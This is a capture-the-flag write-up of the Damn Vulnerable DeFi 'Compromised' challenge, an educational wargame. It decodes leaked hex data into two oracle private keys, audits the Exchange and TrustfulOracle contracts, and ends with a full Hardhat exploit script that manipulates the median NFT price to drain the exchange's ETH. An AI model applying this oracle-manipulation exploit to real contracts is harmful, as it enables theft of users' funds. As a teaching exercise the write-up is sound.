

**Wargame Provider: @tinchoabbate**

> Challenge #7 — Compromised <br>
While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:

``` text
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare4d

48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 354d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

- A related on-chain exchange is selling (absurdly overpriced) collectibles called “DVNFT”, now at 999 ETH each

- This price is fetched from an on-chain oracle, and is based on three trusted re   porters: `0xA73209FB1a42495120166736362A1DfA9F95A105,0xe92401A4d3af5E446d93D11EEc806b1462b39D15 and 0x81A5D6E50C214044bE44cA0CB057fe119097850c`.

Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.
- See the contracts
- Complete the challenge

## Information Gathering
``` python
from web3.auto import w3
txDecode = lambda x: w3.eth.account.privateKeyToAccount(x)

d1 = '''4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35'''
# => 0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9

txDecode('0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9').address

'0xe92401A4d3af5E446d93D11EEc806b1462b39D15'


d2 = '''4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34'''
# => 0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
'0x81A5D6E50C214044bE44cA0CB057fe119097850c' 
```
If you analyze some hex data on the target defi web application server side, you can check the specific signature. After base64 decoding, you can check the specific transaction structure. You can check the value of the Ethereum address. If you analyze the structure through the actual web3 module, you can confirm that it actually belongs to the Oracle address of this contract.

## Deploy Script Flow
``` text
1. attacker Signer
- deployer
- attacker
2. contract deploy
- Exchange
- DamnValunableNFT
- TrustFulOracle
- TrustFulOracleInitializer
```

## Balance Settings
hardhat_setBalance ⇒ 2 ETH settigns (Balance)
``` text
'0xA73209FB1a42495120166736362A1DfA9F95A105',
'0xe92401A4d3af5E446d93D11EEc806b1462b39D15',
'0x81A5D6E50C214044bE44cA0CB057fe119097850c'
```
attacker Balance Settings ⇒ 0.1 ETH Settings (Balance)

## Oracle Contract Settings
- Deploy the oracle and setup the trusted soruces with initial prices
- TrustFulOracle Contract <= TrustfulOracleInitializer Contract Setup

### Oracle Setup
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./TrustfulOracle.sol";

/**
 * @title TrustfulOracleInitializer
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrustfulOracleInitializer {

    event NewTrustfulOracle(address oracleAddress);

    TrustfulOracle public oracle;

    constructor(
        address[] memory sources,
        string[] memory symbols,
        uint256[] memory initialPrices
    )
    {
        oracle = new TrustfulOracle(sources, true);
        oracle.setupInitialPrices(sources, symbols, initialPrices);
        emit NewTrustfulOracle(address(oracle));
    }
}
```
- TrustfulOracleInitializer Contract Constructor `Sources, symbols, initialPricesState` variable initialization
- TrustfulOracle Contract instance initialization process in progress Use the specified address array

``` solidity
/ TrustfulOracle Contract
constructor(address[] memory sources, bool enableInitialization) {
    require(sources.length > 0);
    for(uint256 i = 0; i < sources.length; i++) {
        _setupRole(TRUSTED_SOURCE_ROLE, sources[i]);
    }

    if (enableInitialization) {
      _setupRole(INITIALIZER_ROLE, msg.sender);
    }
}
```
- `TRUSTED_SOURCE_ROLE` Grants the corresponding authority to the initially set up 3 addresses.
- Apply `INITIALIZER_ROLE` permission to `msg.sender`address based on `enableInitialization` value
- Privilege separation progress

``` solidity
// TrustfulOracle Contract
// A handy utility allowing the deployer to setup initial prices (only once)
function setupInitialPrices(
    address[] memory sources,
    string[] memory symbols,
    uint256[] memory prices
) 
    public
    onlyInitializer
{
    // Only allow one (symbol, price) per source
    require(sources.length == symbols.length && symbols.length == prices.length);
    for(uint256 i = 0; i < sources.length; i++) {
        _setPrice(sources[i], symbols[i], prices[i]);
    }
    renounceRole(INITIALIZER_ROLE, msg.sender);
}
```
- Based on the `_setPrice` function, each variable required for setup is designated to manage the data of the mapping structure.
- If you check the function, the `pricesBySource` double mapping structure allocates `price` to each value based on the symbol value based on the address and processes the event.

``` solidity
function _setPrice(address source, string memory symbol, uint256 newPrice) private {
  uint256 oldPrice = pricesBySource[source][symbol];
  pricesBySource[source][symbol] = newPrice;
  emit UpdatedPrice(source, symbol, oldPrice, newPrice);
}
```
- After performing the overall setup, delete the initial setup authority of msg.sender based on renounceRole.

## Exchange Contract Settings
- TrustFulOracle Contract address
- msg.value { EXCHANGE_INITIAL_ETH_BALANCE = 9990 ether }
``` solidity
constructor(address oracleAddress) payable {
    token = new DamnValuableNFT();
    oracle = TrustfulOracle(oracleAddress);
}
```
- You can check the setup of the TrustfulOracle contract and the NFT token contract initially set up earlier.
- When deploying this contract through distribution script analysis, the value of `msg.value` is assigned, so the balance of the Exchange Contract is in possession of 9990 ether.

## DamnValuableNFT Contract Settings
- exchange contract => token func()
``` tsx
this.nftToken = await DamnValuableNFTFactory.attach(await this.exchange.token());
```

## Success Conditions

- exchange Contract Balance is ‘0’
- attacker address Balance is 9990 ether
- nftToken Balance Attacker is ‘0’
- oracle ⇒ getMedianPrice(”DVNFT”) == 999 ether


## Code Audit
> Exchange.sol
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

import "./TrustfulOracle.sol";
import "../DamnValuableNFT.sol";

/**
 * @title Exchange
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract Exchange is ReentrancyGuard {

    using Address for address payable;

    DamnValuableNFT public immutable token;
    TrustfulOracle public immutable oracle;

    event TokenBought(address indexed buyer, uint256 tokenId, uint256 price);
    event TokenSold(address indexed seller, uint256 tokenId, uint256 price);

    constructor(address oracleAddress) payable {
        token = new DamnValuableNFT();
        oracle = TrustfulOracle(oracleAddress);
    }

    function buyOne() external payable nonReentrant returns (uint256) {
        uint256 amountPaidInWei = msg.value;
        require(amountPaidInWei > 0, "Amount paid must be greater than zero");

        // Price should be in [wei / NFT]
        uint256 currentPriceInWei = oracle.getMedianPrice(token.symbol());
        require(amountPaidInWei >= currentPriceInWei, "Amount paid is not enough");

        uint256 tokenId = token.safeMint(msg.sender);
        
        payable(msg.sender).sendValue(amountPaidInWei - currentPriceInWei);

        emit TokenBought(msg.sender, tokenId, currentPriceInWei);

        return tokenId;
    }

    function sellOne(uint256 tokenId) external nonReentrant {
        require(msg.sender == token.ownerOf(tokenId), "Seller must be the owner");
        require(token.getApproved(tokenId) == address(this), "Seller must have approved transfer");

        // Price should be in [wei / NFT]
        uint256 currentPriceInWei = oracle.getMedianPrice(token.symbol());
        require(address(this).balance >= currentPriceInWei, "Not enough ETH in balance");

        token.transferFrom(msg.sender, address(this), tokenId);
        token.burn(tokenId);
        
        payable(msg.sender).sendValue(currentPriceInWei);

        emit TokenSold(msg.sender, tokenId, currentPriceInWei);
    }

    receive() external payable {}
}
```
### Init
``` solidity
using Address for address payable;

DamnValuableNFT public immutable token;
TrustfulOracle public immutable oracle;

event TokenBought(address indexed buyer, uint256 tokenId, uint256 price);
event TokenSold(address indexed seller, uint256 tokenId, uint256 price);

constructor(address oracleAddress) payable {
    token = new DamnValuableNFT();
    oracle = TrustfulOracle(oracleAddress);
}
```
### Functions
`function buyOne() external payable nonReentrant returns (uint256)`
- Since it can be called from the outside and is in a payable state, you can check the logic using Ether.
- It is used for branching to measure whether a transaction is possible through the value of `msg.value` of the subject controlling this function.

✅ The amountPaidInWei value (msg.value of the current subject) must be greater than 0 to pass.
- By calling the getMedianPrice function of TrustOracle Contract, check and return the central point that stores the symbol value of the current NFT token, and it is assigned a value.

✅ The holding amount must be greater than or equal to the median amount of the current NFT token to pass.
- Based on the safeMint function of the nft contract, minting is carried out to `msg.sender`, and based on the `sendValue` function, the holding amount — the value of the current nft token amount is transmitted.
`function sellOne(uint256 tokenId) external nonReentrant`
- This function is also in a state that can be controlled from the outside.

✅ For the msg.sender address value, check that the owner is the same by inquiring the tokenId value in the instance state of the current nft token contract.

✅ Query the tokenId of the nft token contract and check whether the contract is in Approve state by targeting the address of the contract.

- Same as the buyone function, the holding amount and the token amount are compared.

✅ The value of address(this).balance must be greater than or equal to the current token amount.

- Delivers the holding token to address(this), and burns the token when the nft token contract instance state is present.
- Send the calculated amount to msg.sender.
- In this contract, when calling the contract from the outside, receive() external payable is set, so it can be confirmed that handling of Ether is possible.

> TrustOracleInitializer.sol && TrustfullOracle.sol
### Init
``` solidity
bytes32 public constant TRUSTED_SOURCE_ROLE = keccak256("TRUSTED_SOURCE_ROLE");
bytes32 public constant INITIALIZER_ROLE = keccak256("INITIALIZER_ROLE");

// Source address => (symbol => price)
mapping(address => mapping (string => uint256)) private pricesBySource;

modifier onlyTrustedSource() {
    require(hasRole(TRUSTED_SOURCE_ROLE, msg.sender));
    _;
}

modifier onlyInitializer() {
    require(hasRole(INITIALIZER_ROLE, msg.sender));
    _;
}

event UpdatedPrice(
    address indexed source,
    string indexed symbol,
    uint256 oldPrice,
    uint256 newPrice
);

constructor(address[] memory sources, bool enableInitialization) {
    require(sources.length > 0);
    for(uint256 i = 0; i < sources.length; i++) {
        _setupRole(TRUSTED_SOURCE_ROLE, sources[i]);
    }

    if (enableInitialization) {
        _setupRole(INITIALIZER_ROLE, msg.sender);
    }
}
```

- The `priceBySource` mapping structure is composed of two types. It is managed in the form of `(symbol => price).`
- Since the security structure for each role is applied to each account in the beginning, there is a function to check the modifier that determines whether the role of `TRUSTED_SOURCE_ROLE`, `INITIALIER_ROLE` is possessed.

### Functions
`function postPrice(string calldata symbol, uint256 newPrice) external onlyTrustedSource`

📥 `_setPrice` (msg.sender, symbol, newPrice)

- With the (symbol => price) mapping structure, the data is processed with each old and new value and the update proceeds.

function getMedianPrice(string calldata symbol) external view returns (uint256)

📥 (return) `_computeMedianPrice(symbol)`

- Symbol data is temporarily managed as a memory state.
- You can see that the center value of the data is returned after sorting the entire price information based on the symbol value.

## Vulnerability

The exchange is using the actual purchase function by calculating the midpoint of the NFT price in the oracle object using the getMedianPrice() method.

``` solidity
function getMedianPrice(string calldata symbol) external view returns (uint256) {
    return _computeMedianPrice(symbol);
}
// [OMIT]
function _computeMedianPrice(string memory symbol) private view returns (uint256) {
    uint256[] memory prices = _sort(getAllPricesForSymbol(symbol));

    // calculate median price
    if (prices.length % 2 == 0) {
        uint256 leftPrice = prices[(prices.length / 2) - 1];
        uint256 rightPrice = prices[prices.length / 2];
        return (leftPrice + rightPrice) / 2;
    } else {
        return prices[prices.length / 2];
    }
}
```

address used to obtain the original value of the NFT price can be checked through the distribution code above. Based on the three addresses, the dependent user accounts of this contract can be identified, which are used to obtain the ownership and median value of the NFT price, respectively.
``` text
'0xA73209FB1a42495120166736362A1DfA9F95A105',
'0xe92401A4d3af5E446d93D11EEc806b1462b39D15',
'0x81A5D6E50C214044bE44cA0CB057fe119097850c'

"DVNFT"
"DVNFT"
"DVNFT"

INITIAL_NFT_PRICE = 999 ether
INITIAL_NFT_PRICE = 999 ether
INITIAL_NFT_PRICE = 999 ether
```
- We previously received specific hex data from the target web application server, and as a result of analyzing it, we were able to confirm that it was the Oracle address of the contract.
- Among them, you can check the private keys `0xe92401A4d3af5E446d93D11EEc806b1462b39D15 and 0x81A5D6E50C214044bE44cA0CB057fe119097850c`, respectively.
- If we can set some half of the data in the logic to obtain this median value, we can confirm that it is possible to create a specific median price at a desired price. In other words, the problem arises with the mechanism used to update the Oracle price.
``` solidity
function postPrice(string calldata symbol, uint256 newPrice) external onlyTrustedSource {
    _setPrice(msg.sender, symbol, newPrice);
}

function _setPrice(address source, string memory symbol, uint256 newPrice) private {
    uint256 oldPrice = pricesBySource[source][symbol];
    pricesBySource[source][symbol] = newPrice;
    emit UpdatedPrice(source, symbol, oldPrice, newPrice);
}
```
Calling the postPrice method after the Oracle price has been updated exists on an additional individual Oracle. Because the exposed Oracle private key exists, all transactions can be made, so you can create any transaction you want.

## Solve

``` tsx
const { expect } = require('chai');
const { BigNumber } = require('ethers');
const { ethers, network} = require('hardhat');
const web3 = require('web3');

describe('Compromised challenge', function () {

    const sources = [
        '0xA73209FB1a42495120166736362A1DfA9F95A105',
        '0xe92401A4d3af5E446d93D11EEc806b1462b39D15',
        '0x81A5D6E50C214044bE44cA0CB057fe119097850c'
    ];

    // const tx1 = '0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9';
    // const tx2 = '0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48';

    let deployer, attacker;
    const EXCHANGE_INITIAL_ETH_BALANCE = ethers.utils.parseEther('9990');
    const INITIAL_NFT_PRICE = ethers.utils.parseEther('999');

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        // const trace = await network.provider.send("debug_traceTransaction", [
        //     tx1,
        //   ]);
        // console.log(trace);


        [deployer, attacker] = await ethers.getSigners();

        const ExchangeFactory = await ethers.getContractFactory('Exchange', deployer);
        const DamnValuableNFTFactory = await ethers.getContractFactory('DamnValuableNFT', deployer);
        const TrustfulOracleFactory = await ethers.getContractFactory('TrustfulOracle', deployer);
        const TrustfulOracleInitializerFactory = await ethers.getContractFactory('TrustfulOracleInitializer', deployer);

        // Initialize balance of the trusted source addresses
        for (let i = 0; i < sources.length; i++) {
            await ethers.provider.send("hardhat_setBalance", [
                sources[i],
                "0x1bc16d674ec80000", // 2 ETH
            ]);
            expect(
                await ethers.provider.getBalance(sources[i])
            ).to.equal(ethers.utils.parseEther('2'));
        }

        // Attacker starts with 0.1 ETH in balance
        await ethers.provider.send("hardhat_setBalance", [
            attacker.address,
            "0x16345785d8a0000", // 0.1 ETH
        ]);
        expect(
            await ethers.provider.getBalance(attacker.address)
        ).to.equal(ethers.utils.parseEther('0.1'));

        // Deploy the oracle and setup the trusted sources with initial prices
        this.oracle = await TrustfulOracleFactory.attach(
            await (await TrustfulOracleInitializerFactory.deploy(
                sources,
                ["DVNFT", "DVNFT", "DVNFT"],
                [INITIAL_NFT_PRICE, INITIAL_NFT_PRICE, INITIAL_NFT_PRICE]
            )).oracle()
        );

        // Deploy the exchange and get the associated ERC721 token
        this.exchange = await ExchangeFactory.deploy(
            this.oracle.address,
            { value: EXCHANGE_INITIAL_ETH_BALANCE }
        );
        this.nftToken = await DamnValuableNFTFactory.attach(await this.exchange.token());
    });

    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */
        const keys = [
            '0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9',
            '0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48'
        ];

        var walletList = [];    
        for (let i = 0; i < keys.length; i++) {
            walletList.push(new ethers.Wallet(keys[i], ethers.provider));
        }

        // update NFT Pirce 0
        var txList = [];
        for (let i = 0; i < walletList.length; i++) {
            txList.push(await this.oracle.connect(walletList[i]).postPrice("DVNFT", 0));
        }
        
        // buy
        await this.exchange.connect(attacker).buyOne(
            {
                value: ethers.utils.parseEther("0.001")
            }
        );

        // exchnage pill
        const sellAmt = await ethers.provider.getBalance(this.exchange.address);
        
        for (let i = 0; i < walletList.length; i++) {
            await this.oracle.connect(walletList[i]).postPrice("DVNFT", sellAmt);
        }

        // approve exchange nft
        await this.nftToken.connect(attacker).approve(this.exchange.address, 0);
        await this.exchange.connect(attacker).sellOne(0);

        // update price nft
        for (let i = 0; i < walletList.length; i++) {
            await this.oracle.connect(walletList[i]).postPrice("DVNFT", INITIAL_NFT_PRICE);
        }
    });

    after(async function () {
        /** SUCCESS CONDITIONS */
        
        // Exchange must have lost all ETH
        expect(
            await ethers.provider.getBalance(this.exchange.address)
        ).to.be.eq('0');
        
        // Attacker's ETH balance must have significantly increased
        expect(
            await ethers.provider.getBalance(attacker.address)
        ).to.be.gt(EXCHANGE_INITIAL_ETH_BALANCE);
        
        // Attacker must not own any NFT
        expect(
            await this.nftToken.balanceOf(attacker.address)
        ).to.be.eq('0');

        // NFT price shouldn't have changed
        expect(
            await this.oracle.getMedianPrice("DVNFT")
        ).to.eq(INITIAL_NFT_PRICE);
    });
});
```
## next time.. 🚀

I will continue to post auditing and research on 12 challenge defi Smart Contracts.

Thank you for the @tinchoabbate that made a good wargame.
[Damn Vunlerable Defi](https://www.damnvulnerabledefi.xyz/)